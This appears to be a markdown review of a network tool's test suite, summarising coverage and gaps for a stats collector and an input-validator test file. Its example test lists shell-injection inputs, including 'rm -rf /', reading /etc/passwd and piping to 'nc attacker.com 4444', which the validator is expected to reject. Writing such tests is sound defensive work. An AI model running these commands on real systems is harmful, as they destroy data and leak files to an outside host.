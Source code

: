 ```python
```

---

#### 3. test_stats_collector.py
**Lines:** ~300  
**Tests:** 18+  
**Coverage:** 80%

**What's Tested:**
- ✅ Bandwidth calculation
- ✅ Data usage tracking
- ✅ Connection quality scoring
- ✅ Latency measurement
- ✅ Statistics persistence
- ✅ Reset functionality

**What's Missing:**
- ⚠️ High-frequency updates (stress test)
- ⚠️ Large data transfers (TB scale)
- ⚠️ Long-running collection (memory leaks)
- ⚠️ Concurrent access to stats

---

#### 4. test_input_validators.py
**Lines:** ~200  
**Tests:** 10+  
**Coverage:** 90%

**What's Tested:**
- ✅ SSID validation
- ✅ IP address validation
- ✅ Subprocess argument validation
- ✅ Command injection prevention
- ✅ Path traversal prevention

**What's Missing:**
- ⚠️ Unicode/emoji in SSID
- ⚠️ Very long inputs (DOS prevention)
- ⚠️ NULL bytes in strings

**Good Example:**
```python
def test_command_injection_prevention(self):
    """Test that shell injection is prevented"""
    malicious_inputs = [
        "name; rm -rf /",
        "name && cat /etc/passwd",
        "name | nc attacker.com 4444",
        "name\n whoami",
        "`whoami`",
        "$(whoami)"
    ]
    
    for malicious in malicious_inputs:
        with self.assertRaises(ValidationError):
            validate_ssid(malicious)
```

---